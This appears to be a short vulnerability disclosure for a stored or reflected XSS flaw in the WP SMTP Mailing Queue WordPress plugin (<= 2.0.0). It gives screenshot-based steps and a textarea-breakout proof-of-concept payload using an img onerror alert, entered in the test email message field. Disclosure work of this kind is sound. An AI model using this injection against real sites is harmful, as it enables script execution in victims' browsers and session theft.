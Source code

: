 ## SMTP Mailing Queue

Cross-Site Scripting (XSS) vulnerability in WP SMTP Mailing Queue Plugin <= 2.0.0 at WordPress.

[![pSztOQe.png](https://s1.ax1x.com/2023/02/24/pSztOQe.png)](https://imgse.com/i/pSztOQe)
 - [ ] STEPS:
 
1.After installing the plugin, click Settings
[![pSztxeA.png](https://s1.ax1x.com/2023/02/24/pSztxeA.png)](https://imgse.com/i/pSztxeA)
2.click Tools, jump to the following page
[![pSzBhpq.png](https://s1.ax1x.com/2023/02/24/pSzBhpq.png)](https://imgse.com/i/pSzBhpq)
Put poc in Message text then click Send Test Email

POC：

    </textarea><img src=1 onerror=alert(/xss/)><textarea>

  

Then XSS vulnerability triggered
[![pSzszj0.png](https://s1.ax1x.com/2023/02/24/pSzszj0.png)](https://imgse.com/i/pSzszj0)
[![pSzsRtH.png](https://s1.ax1x.com/2023/02/24/pSzsRtH.png)](https://imgse.com/i/pSzsRtH)
